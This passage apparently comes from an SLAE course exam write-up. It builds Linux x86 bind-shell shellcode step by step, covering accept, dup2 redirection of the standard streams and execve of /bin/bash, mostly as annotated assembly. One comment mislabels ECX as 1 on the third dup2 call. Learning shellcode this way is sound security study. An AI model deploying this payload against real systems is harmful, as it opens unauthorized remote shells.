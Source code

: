 ### accept(socketfd, null, null)
```c
socketid = accept(socketfd, null, null)
```
Translated to x86 assembly:
```asm
xor eax, eax    ; Clear EAX
mov al, 0x66    ; SYS_SOCKETCALL
xor ebx, ebx    ; Clear EBX
mov bl, 0x5     ; SYS_ACCEPT
push edx        ; 3rd argument NULL (EDX is still NULL)
push edx        ; 2nd argument NULL
push esi        ; 1st argument, reference to socketfd
int 0x80        ; Exec syscall
```

### dup2(socketid, 1/2/3)
Now that we've done all the "socketcall" functions, let's see what we need for syscall dup2:
```bash
dev@pc:~/SLAE/exam/ass1$ grep "dup2" /usr/include/i386-linux-gnu/asm/unistd_32.h 
#define __NR_dup2		 63
```
Because we need to call this function 3 times, and only the second argument (ECX) changes, we don't need to setup everything for 
all 3 calls. We do need the reference to socketid here, which is currently in EAX. Let's move that to EBX first before continuing
```asm
mov ebx, eax      ; Reference to socketid
xor eax, eax      ; Clear EAX
mov al, 0x3f      ; SYS_DUP2
xor ecx, ecx      ; ECX is now 0
int 0x80          ; Exec syscall
```

The result of the syscall was put in EAX, so we need to setup that one again. 
EBX is still correct, and ECX just needs to increment to have the correct next value
```asm
xor eax, eax      ; Clear EAX
mov eax, 0x3f     ; SYS_DUP2
inc ecx           ; ECX is now 1
int 0x80          ; Exec syscall

; And the same again for the 3rd function
xor eax, eax      ; Clear EAX
mov eax, 0x3f     ; SYS_DUP2
inc ecx           ; ECX is now 1
int 0x80          ; Exec syscall
```

### execve("/bin/bash", NULL, NULL)
Now we only need to translate the last execve function:
```c
execve("////bin/bash", NULL, NULL)
```
Translated to x86 assembly:
```asm
xor eax, eax      ; Clear EAX
mov al, 0x0b      ; SYS_EXECVE
push edx          ; Push NULL character to stack (EDX is still NULL)
push 0x68736162   ; "hsab"
push 0x2f6e6962   ; "/nib"
push 0x2f2f2f2f   ; "////"
mov ebx, esp      ; Reference to "////bin/bash" on stack
xor ecx, ecx      ; 2nd argument NULL
int 0x80          ; Exec syscall
```